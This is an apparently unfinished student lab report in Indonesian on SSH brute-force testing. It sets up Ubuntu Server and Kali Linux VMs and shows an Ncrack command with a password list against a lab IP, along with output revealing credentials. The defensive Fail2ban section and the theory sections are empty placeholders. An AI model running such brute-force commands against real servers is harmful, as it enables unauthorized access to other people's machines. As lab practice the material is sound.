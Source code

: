 # Laporan 1

## Pendahuluan

### Latar Belakang

Banyak sekali di era yang serba teknologi ini kejahatan semakin ramai. Jaman sekarang segala sesuatu bisa diakses dari tempat manapun negara manapun. Bahkan kita bisa me-*remote* komputer dari negara lain menggunakan *openSSH*. Kemudahan ini dimanfaatkan oleh para *Penetration Developer* untuk me-*remote* komputer orang lain lewar port yang terbuka menggunakan port SSH. Teknik ini terkenal dengan nama SSH brute force attack. Software yang peling terkenal untuk melakukan SSH brute force attack antara lain Hydra, Ncrack, dan medusa.

### Rumusan Masalah

* Bagaimana cara menggunakan software openSSH?
* Bagaimana cara hacker mencoba untuk memenetrasi jaringan yang terbuka port SSH-nya?
* Bagaimana cara mengatasai SSH brute fore attack?

### Tujuan Penulisan

* Untuk mengetahui cara menggunakan software openSSH.
* Untuk menguji penetrasi jaringan yang terbuka port SSH-nya.
* Untuk mengetahui cara mengatasai SSH brute fore attack.


## Dasar Teori

### OS Ubuntu Server

OS Ubuntu Server adalah ...

### Software openSSH

Software openSSH merupakan ...

### Software Ncrack

Software Ncrack adalah ...


## Uji Penetrasi 1

### Instalasi Ubuntu Server di vmware

* Pertama download Ubuntu Server di http://www.ubuntu.com/download/server
* Buka vmware kemudian ctrl+N untuk membuat virtual mechine baru. pilih image ubuntu server yang baru di download.
* ikuti perintah-perintah yang ada di vmware sampai instalisasi selesai

### Instalasi kali linux di vmware

* Pertama download image iso kali linux di http://cdimage.kali.org/kali-2016.2/
* Buka vmware kemudian ctrl+N untuk membuat virtual mechine baru. pilih image ubuntu server yang baru di download.
* ikuti perintah-perintah yang ada di vmware sampai instalisasi selesai

### Instalasi software openSSH

* Untuk mengintall openSSH di OS Ubuntu server ketik 

```
~$ sudo apt-get update && apt-get install openssh-server
```

* Masukkan password server. kemudian klik enter.
* Tunggu sampai proses download dan instalisasi selesai
* Kemudian jalankan *openssh-server*

```
~$ sudo systemctl start sshd.service
```


### Uji penetrasi menggunakan Ncrack

* Di OS kali linux sudah tersedia tool ncrack untuk memenetrasi ssh server
* syntax ncrack adalah

```
~$ ncrack [Option] (target and service specification)
```

* Untuk melakukan uji penetrasi pada server uji coba, kita perlu mengetahui IPnya. di sini sudah diketahui IP server target adalah 192.168.145.132.

```
~$ ncrack -p 22 -user ggg -P password-lib-list.txt 192.168.145.132

Starting Ncrack 0.4ALPHA ( http://ncrack.org ) at 2016-07-01 23:21 WIB

Discovered credentials for ssh on 192.168.145.132 22/tcp:
192.168.145.132 22/tcp ss: 'ggg' 'ggg'

Ncrack done:1 service scanner in 24.14 seconds.

Ncrack finished.
```

* dari penetrasi di atas diketahui bahwa server dengan nama 'ggg' memiliki password 'ggg'


* 

## Uji Penetrasi 2

### Konfigurasi sofware Fail2ban

* -
* -

### Konfigurasi openSSH

* -
* -

### Uji penetrasi menggunakan Ncrack

* -
* -

## Kesimpulan dan Saran

-
